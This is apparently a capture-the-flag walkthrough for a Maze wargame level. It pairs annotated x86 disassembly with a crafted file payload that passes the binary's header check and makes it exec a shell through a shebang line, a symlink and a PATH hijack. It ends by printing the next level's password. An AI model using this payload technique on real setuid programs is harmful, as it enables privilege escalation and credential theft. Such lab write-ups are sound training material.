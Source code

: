 disassembly:
```assembly
0x080485fb <+0>:	push   ebp
   0x080485fc <+1>:	mov    ebp,esp
   0x080485fe <+3>:	sub    esp,0xb0
   0x08048604 <+9>:	cmp    DWORD PTR [ebp+0x8],0x2		#check for 2 args in envp
   0x08048608 <+13>:	je     0x8048624 <main+41>
   0x0804860a <+15>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804860d <+18>:	mov    eax,DWORD PTR [eax]
   0x0804860f <+20>:	push   eax
   0x08048610 <+21>:	push   0x80487e0
   0x08048615 <+26>:	call   0x8048440 <printf@plt>
   0x0804861a <+31>:	add    esp,0x8
   0x0804861d <+34>:	push   0xffffffff
   0x0804861f <+36>:	call   0x80484a0 <exit@plt>
   0x08048624 <+41>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048627 <+44>:	add    eax,0x4
   0x0804862a <+47>:	mov    eax,DWORD PTR [eax]
   0x0804862c <+49>:	push   0x0
   0x0804862e <+51>:	push   eax
   0x0804862f <+52>:	call   0x80484b0 <open@plt>		#try to open the file
   0x08048634 <+57>:	add    esp,0x8
   0x08048637 <+60>:	mov    DWORD PTR [ebp-0x4],eax
   0x0804863a <+63>:	cmp    DWORD PTR [ebp-0x4],0x0
   0x0804863e <+67>:	jns    0x8048654 <main+89>		#check for error (cant open / not a file)
   0x08048640 <+69>:	push   0x80487f6
   0x08048645 <+74>:	call   0x8048470 <perror@plt>
   0x0804864a <+79>:	add    esp,0x4
   0x0804864d <+82>:	push   0xffffffff
   0x0804864f <+84>:	call   0x80484a0 <exit@plt>
   0x08048654 <+89>:	mov    eax,DWORD PTR [ebp+0xc]		#if good, we are here
   0x08048657 <+92>:	add    eax,0x4
   0x0804865a <+95>:	mov    eax,DWORD PTR [eax]
   0x0804865c <+97>:	lea    edx,[ebp-0xb0]
   0x08048662 <+103>:	push   edx				#buffer to write to
   0x08048663 <+104>:	push   eax				#filename
   0x08048664 <+105>:	call   0x80487a0 <stat>			#get file status
   0x08048669 <+110>:	add    esp,0x8
   0x0804866c <+113>:	test   eax,eax				#check if stat went fine
   0x0804866e <+115>:	jns    0x8048684 <main+137>		#if good jmp
   0x08048670 <+117>:	push   0x80487fb
   0x08048675 <+122>:	call   0x8048470 <perror@plt>		#exit with error otherwise
   0x0804867a <+127>:	add    esp,0x4
   0x0804867d <+130>:	push   0xffffffff
   0x0804867f <+132>:	call   0x80484a0 <exit@plt>
   0x08048684 <+137>:	push   0x34				#continue here
   0x08048686 <+139>:	lea    eax,[ebp-0x38]
   0x08048689 <+142>:	push   eax
   0x0804868a <+143>:	push   DWORD PTR [ebp-0x4]
   0x0804868d <+146>:	call   0x8048430 <read@plt>		#read 52 bytes from file
   0x08048692 <+151>:	add    esp,0xc
   0x08048695 <+154>:	mov    eax,DWORD PTR [ebp-0x1c]
   0x08048698 <+157>:	push   0x0				#mode, 0 = seek offset
   0x0804869a <+159>:	push   eax				#offset = position 29 - 32 in file
   0x0804869b <+160>:	push   DWORD PTR [ebp-0x4]		#file pointer
   0x0804869e <+163>:	call   0x8048450 <lseek@plt>		#reposition the file pointer
   0x080486a3 <+168>:	add    esp,0xc
   0x080486a6 <+171>:	push   0x20
   0x080486a8 <+173>:	lea    eax,[ebp-0x58]
   0x080486ab <+176>:	push   eax
   0x080486ac <+177>:	push   DWORD PTR [ebp-0x4]
   0x080486af <+180>:	call   0x8048430 <read@plt>		#read 32 bytes (after offset of our choice)
   0x080486b4 <+185>:	add    esp,0xc
   0x080486b7 <+188>:	mov    eax,DWORD PTR [ebp-0x4c]		#move place 12 (after offset) to eax
   0x080486ba <+191>:	movzx  edx,BYTE PTR [ebp-0x31]		#move place 8 (no offset) in file to dx
   0x080486be <+195>:	movzx  ecx,dl				#move the same to cx
   0x080486c1 <+198>:	movzx  edx,BYTE PTR [ebp-0x30]		#move place 9 (no offset) to dx
   0x080486c5 <+202>:	movzx  edx,dl				#same
   0x080486c8 <+205>:	imul   edx,ecx				#signed multiply them both, store in edx
   0x080486cb <+208>:	cmp    eax,edx				#compare to eax
   0x080486cd <+210>:	jne    0x80486fa <main+255>		#if not equal, exit
   0x080486cf <+212>:	mov    eax,DWORD PTR [ebp-0x84]		
   0x080486d5 <+218>:	cmp    eax,0x77
   0x080486d8 <+221>:	jg     0x80486fa <main+255>		# if length of file > 0x77 = 119 jump to exit (its not)
   0x080486da <+223>:	push   0x8048800
   0x080486df <+228>:	call   0x8048490 <puts@plt>		#"valid file, executing"
   0x080486e4 <+233>:	add    esp,0x4
   0x080486e7 <+236>:	mov    eax,DWORD PTR [ebp+0xc]
   0x080486ea <+239>:	add    eax,0x4
   0x080486ed <+242>:	mov    eax,DWORD PTR [eax]
   0x080486ef <+244>:	push   0x0
   0x080486f1 <+246>:	push   eax				#execute the file!
   0x080486f2 <+247>:	call   0x80484d0 <execv@plt>		#execute something...
   0x080486f7 <+252>:	add    esp,0x8
   0x080486fa <+255>:	mov    eax,ds:0x8049aa8			#"file not executed" section...
   0x080486ff <+260>:	push   eax
   0x08048700 <+261>:	push   0x12
   0x08048702 <+263>:	push   0x1
   0x08048704 <+265>:	push   0x8048816
   0x08048709 <+270>:	call   0x8048480 <fwrite@plt>
   0x0804870e <+275>:	add    esp,0x10
   0x08048711 <+278>:	push   DWORD PTR [ebp-0x4]
   0x08048714 <+281>:	call   0x80484e0 <close@plt>
   0x08048719 <+286>:	add    esp,0x4
   0x0804871c <+289>:	mov    eax,0x0
   0x08048721 <+294>:	leave  
   0x08048722 <+295>:	ret
```

so, to trick the program, we create the sequence:
"AAAABBBBCCCCDDDDEEEEFFFFGGGG!!!!ABCDEFGHIJKLMNOPQRSTUVXYWZ"
where !!!!, is where in hex, to read from the file (change the offset to 0x!!!! and read 32 bytes)

then we have to pass the multiplying test: B * C == MNOP
so we'll put:
"AAAABBB\x01\x01CCCDDDDEEEEFFFFGGGG\x20\x00\x00\x00ABCDEFGHIJKL\x01\x00\x00\x00QRSTUVXYWZ"

it gets executed!

no we want to put in it a shell: google the usage...
	"pathname must be either a binary executable, or a script starting
	 with a line of the form: #!interpreter [optional-arg]"

--> "#!/bin/shCCCDDDDEEEEFFFFGGGG\x20\x00\x00\x00ABCDEFGHIJKL\x01\x00\x00\x00QRSTUVXYWZ"
where s,h are to be multiplied --> change to s * h = 11960 = 0x2eb8:
--> "#!/bin/sh\x0aAAAAAAAAAAAAAAAAA\x0a\x20\x00\x00\x00ABCDEFGHIJKL\xb8\x2e\x00\x00QRSTUVXYWZ"
```sh
chmod +x a
ln -s /bin/sh AAAAAAAAAAAAAAAAA
PATH=.:PATH
$ cat /etc/maze_pass/maze5
ishipaeroo
```

we get:
ishipaeroo



